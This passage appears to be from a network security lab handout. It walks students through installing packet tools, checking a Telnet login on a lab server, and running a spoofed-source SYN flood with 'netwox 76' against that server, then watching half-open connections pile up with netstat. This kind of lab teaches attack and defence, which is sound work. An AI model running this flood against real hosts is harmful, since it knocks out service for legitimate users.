 2. **Scapy** (usually preinstalled). If not:
 
   ```bash
   sudo apt-get update
   sudo apt-get install python-scapy
   ```
 
3. **Wireshark** or **tcpdump** for sniffing:
 
   ```bash
   sudo apt-get update
   sudo apt-get install wireshark tcpdump
   ```
 
---
 
# 2. Task 1: SYN Flooding Attack Using Netwox
 
**Objective**: Flood the Server’s half‐open queue so legitimate Telnet clients cannot connect.
 
---
 
## 2.1 Confirm Telnet is Working Normally
 
1. On the **Client VM**, run:
 
   ```bash
   telnet 10.0.2.6 23
   ```
   - Replace `10.0.2.6` with your Server IP if different.  
   - You should see a login prompt. Login to confirm it works.
 
> **Take Screenshot #2**: Your normal Telnet session connected successfully.
 
2. Exit Telnet.
 
---
 
## 2.2 Launch SYN Flood Attack
 
1. On the **Attacker VM**, run:
 
   ```bash
   sudo netwox 76 -i 10.0.2.6 -p 23 -s random
   ```
   - **`-i 10.0.2.6`**: Server’s IP  
   - **`-p 23`**: Telnet port  
   - **`-s random`**: use random IP addresses for spoofing
 
2. **Observe** on **Server VM**:
 
   ```bash
   netstat -na | grep 23
   ```
   - Many lines should appear in the `SYN_RECV` state if the flood is working.
 
> **Take Screenshot #3**: Your `netstat -na` on the server showing a large number of `SYN_RECV`.
 